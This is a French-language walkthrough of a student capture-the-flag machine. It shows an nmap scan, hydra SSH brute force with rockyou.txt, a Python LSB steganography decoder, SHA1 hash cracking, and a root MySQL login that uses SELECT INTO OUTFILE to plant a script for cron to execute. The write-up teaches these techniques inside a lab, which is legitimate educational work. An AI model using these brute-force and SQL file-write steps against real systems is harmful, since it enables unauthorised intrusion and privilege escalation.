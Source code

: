 # Walktrought CTF_Moyen_2020-2021 Groupe 4

## Avant Propos :

Ce CTF s'axe sur 3 catégories : 
- De la steganographie
- De la cryptographie
- Du système



## Etape 1
L'utilisateur aura accès a l'addresse IP de la machine et pourra ainsi scanner les ports de la machine à l'aide de la commande nmap 
```bash
nmap -sV -sC [ipmachine]
```

Il pourra s'apercevoir qu'un service mysql est ouvert celui sera protégé par un mot de passe et face aux tentatives de bruteforce.

![](img/nmap.PNG "nmap")

## Etape 2

L'attaquant pourra essayer de brutforce avec hydra pour trouver une connexion SSH à l'aide de fichiers regroupant des logins et des mots de passe de base.

```bash
hydra -L user.txt -P rockyou.txt 10.10.219.212 ssh
```
![](img/hydra.PNG "hydra")

## Etape 3

Une fois connecté sur le compte user,  l'attaquant aura accès au home de cet utilisateur et sur celui-ci il trouvera une image.
Cette image aura été modifié par un script python afin d'y dissimuler le mot de passe du port sql, le numéro : 3306.
De plus toutes les minutes sur sa console apparaitera un message lui indiquant que des scripts ont été bougé, ainsi que l'heure de la machine.

```py

from os import putenv
from PIL import Image
import numpy as np
import sys


def get_msg(input_file):
    img = Image.open(input_file)
    width, height = img.size
    data = np.array(img)

    data = np.reshape(data, width*height*4)
    # On ne regarde que le LSB de chaque pixel
    data = data & 1
    # On transoorme le tout en string de 8 bit de binaire

    """packbit function (from numpy doc)

    Packs the elements of a binary-valued array into bits in a uint8 array.

    The result is padded to full bytes by inserting zero bits at the end.
    """
    data = np.packbits(data)

    # On lit le tout et on convertit en acii 
    # jusqu'a qu'on tombe sur un caractère non pritable
    for x in data:
        l = chr(x)
        if not l.isprintable():
            break
        print(l, end='')


def main(argv):
    get_msg(argv[1])


if __name__ == "__main__":
    main(sys.argv)
```

## Etape 4

![](img/decrypt.PNG "decrypt")

Sur ce screen, on voit la solution de la stéganographie, ainsi que le message qui va s'afficher toutes les minutes.

Le mot de passe étant hashé en SHA1, l'attaquant devra le déhashé en utilsant les rainbow table ou alors à l'aide d'un site web (https://hashtoolkit.com/).

## Etape 5

L'attaquant devra ensuite faire une demande de connexion SQL sur le port en question.

```bash
mysql -h [ip.host] -u root -p[PASSWORD]

```

![](img/sql.PNG "sql")

Une fois connecté, il pourra voir ce que les bases de données sur la machine.
Sur celle-ci on voit qu'elle contient des scripts.

![](img/script.PNG "script")

## Etape 6

Une fois connecté au port SQL avec les droits root, l'utilisateur sera en possibilité d'executer des requêtes SQL pour placer un dossier dans la data directory de mysql, qui sera ensuite deplacé dans un fichier où il sera executé par cron.

```bash
use scripts

SELECT text_script FROM script WHERE nom_script='remind_admin_psswq.sh' 
INTO OUTFILE 'pass.sh';
```

![](img/password.PNG "password")

Dans son terminal, s'affichera ainsi l'heure ainsi que le mot de passe admin, il pourra ainsi accéder au compte admin. Il verra aussi qu'il existe un flag dans le home admin.

